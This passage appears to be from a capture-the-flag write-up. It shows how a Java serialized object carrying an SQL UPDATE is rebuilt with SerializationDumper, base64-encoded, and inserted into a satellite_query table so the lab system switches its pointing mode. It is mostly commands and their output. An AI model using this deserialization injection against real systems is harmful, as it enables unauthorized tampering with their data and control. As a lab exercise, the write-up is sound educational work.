 
```bash
java -jar SerializationDumper-v1.13.jar -b decoded_data.bin rebuilt.bin

Rebuilding serialization stream from dump: decoded_data.bin
Stream rebuilt, attempting to parse...
Done, rebuilt stream written to test2.bin

strings rebuilt.bin
SatelliteQueryFileFolderUtility
isQueryZ
isUpdateL
pathOrStatementt
Ljava/lang/String;xp
9UPDATE pointing_mode SET numerical_mode = 1 WHERE id = 1;
```


Let's encode our data:
```sh
root@slingshot:/home/slingshot/Desktop# cat rebuilt.bin | base64
rO0ABXNyAB9TYXRlbGxpdGVRdWVyeUZpbGVGb2xkZXJVdGlsaXR5EtT2jQ6zkssCAANaAAdpc1F1
ZXJ5WgAIaXNVcGRhdGVMAA9wYXRoT3JTdGF0ZW1lbnR0ABJMamF2YS9sYW5nL1N0cmluZzt4cAEB
dAA5VVBEQVRFIHBvaW50aW5nX21vZGUgU0VUIG51bWVyaWNhbF9tb2RlID0gMSBXSEVSRSBpZCA9
IDE7
```

and update DB

```sql
INSERT INTO satellite_query (object) VALUES (FROM_BASE64('rO0ABXNyAB9TYXRlbGxpdGVRdWVyeUZpbGVGb2xkZXJVdGlsaXR5EtT2jQ6zkssCAANaAAdpc1F1ZXJ5WgAIaXNVcGRhdGVMAA9wYXRoT3JTdGF0ZW1lbnR0ABJMamF2YS9sYW5nL1N0cmluZzt4cAEBdAA5VVBEQVRFIHBvaW50aW5nX21vZGUgU0VUIG51bWVyaWNhbF9tb2RlID0gMSBXSEVSRSBpZCA9IDE7'));
```
We can see update completed:

|   2 | �� sr SatelliteQueryFileFolderUtility������ Z isQueryZisUpdateL pathOrStatementt Ljava/lang/String;xpt 9UPDATE pointing_mode SET numerical_mode = 1 WHERE id = 1;         | SQL Update completed.


Win!
